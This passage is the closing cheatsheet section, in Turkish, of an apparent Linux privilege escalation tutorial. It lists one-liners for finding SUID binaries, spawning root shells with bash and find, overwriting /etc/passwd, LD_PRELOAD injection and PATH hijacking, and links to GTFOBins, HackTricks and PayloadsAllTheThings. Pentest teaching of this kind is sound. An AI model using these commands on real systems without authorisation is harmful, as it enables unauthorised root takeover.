 ## Bölüm 5: Hızlı Başvuru Notları (Cheatsheet) ve Kaynaklar

### Cheatsheet

| Amaç                          | Komut                                                              |
|-------------------------------|--------------------------------------------------------------------|
| SUID'li Dosyaları Bulma        | `find / -perm -u=s -type f 2>/dev/null`                              |
| `bash` ile Shell              | `bash -p`                                                          |
| `find` ile Shell              | `find . -exec /bin/sh -p \; -quit`                                   |
| `cp` ile `/etc/passwd` üzerine yazma | `cp /tmp/new_passwd /etc/passwd`                                   |
| `LD_PRELOAD` Shell            | `LD_PRELOAD=/tmp/exploit.so /path/to/binary`                       |
| `PATH` Hijacking Shell        | `export PATH=/tmp:$PATH; /path/to/binary`                          |

### Harici Kaynaklar

*   **GTFOBins:** Zafiyetli Unix binary'leri için İncil.
    *   [https://gtfobins.github.io/](https://gtfobins.github.io/)
*   **HackTricks:** Kapsamlı pentest ve privilege escalation rehberleri.
    *   [https://book.hacktricks.xyz/linux-hardening/privilege-escalation](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)
*   **PayloadsAllTheThings:** Her türlü payload ve sömürü tekniği koleksiyonu.
    *   [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

